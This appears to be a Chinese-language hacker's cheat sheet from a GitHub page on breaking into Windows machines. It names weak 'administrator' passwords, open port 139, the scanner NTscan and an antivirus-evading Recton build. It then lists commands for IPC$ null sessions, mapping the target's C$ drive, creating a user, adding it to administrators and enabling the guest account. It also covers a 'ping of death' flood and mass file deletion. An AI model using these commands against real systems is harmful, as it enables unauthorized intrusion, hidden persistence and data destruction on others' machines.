 # kzj-柯智杰-github
弱口令:administrator。139端口，无防火墙。
NTscan扫描器，Recton--D贺免杀专用版，DameWare 4.5

NTscan--
net use \\ip\ipc$ " " /user:" " 建立IPC空链接
net use \\ip\ipc$ "密码" /user:"用户名" 建立IPC非空链接
net use h: \\ip\c$ "密码" /user:"用户名" 直接登陆后映射对方C：到本地为H:
net use h: \\ip\c$ 登陆后映射对方C：到本地为H:
net use \\ip\ipc$ /del 删除IPC链接
net use h: /del 删除映射对方到本地的为H:的映射
net user 用户名 密码 /add 建立用户
net user guest /active:yes 激活guest用户
net user 查看有哪些用户
net user 帐户名 查看帐户的属性
net localgroup administrators 用户名 /add 把"用户"添加到管理员中使其具有管理员权限,注意：administrator后加s用复数
net start 查看开启了哪些服务
net start 服务名 开启服务；(如:net start telnet， net start schedule)
net stop 服务名 停止某服务
net time \\目标ip 查看对方时间
net time \\目标ip /set 设置本地计算机时间与"目标IP"主机的时间同步,加上参数/yes可取消确认信息
net view 查看本地局域网内开启了哪些共享
net view \\ip 查看对方局域网内开启了哪些共享
net config 显示系统网络设置
net logoff 断开连接的共享
net pause 服务名 暂停某服务
net send ip "文本信息" 向对方发信息
net ver 局域网内正在使用的网络连接类型和信息
net share 查看本地开启的共享
net share ipc$ 开启ipc$共享
net share ipc$ /del 删除ipc$共享
net share c$ /del 删除C：共享
net user guest 12345 用guest用户登陆后用将密码改为12345
net password 密码 更改系统登陆密码
netstat -a 查看开启了哪些端口,常用netstat -an
netstat -n 查看端口的网络连接情况，常用netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况（查看tcp/ip协议使用情况）
netstat -s 查看正在使用的所有协议使用情况
nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名（03前的为用户名）-注意：参数-A要大写
tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数："-w数字"用于设置超时间隔。
ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数："-l[空格]数据包大小"；"-n发送数据次数"；"-t"指一直ping。
ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数"/all"显示全部配置信息
tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如"DEL/AR *.*"表示删除当前目录下所有只读文件，"DEL/A-S *.*"表示删除当前目录下除系统文件以外的所有文件
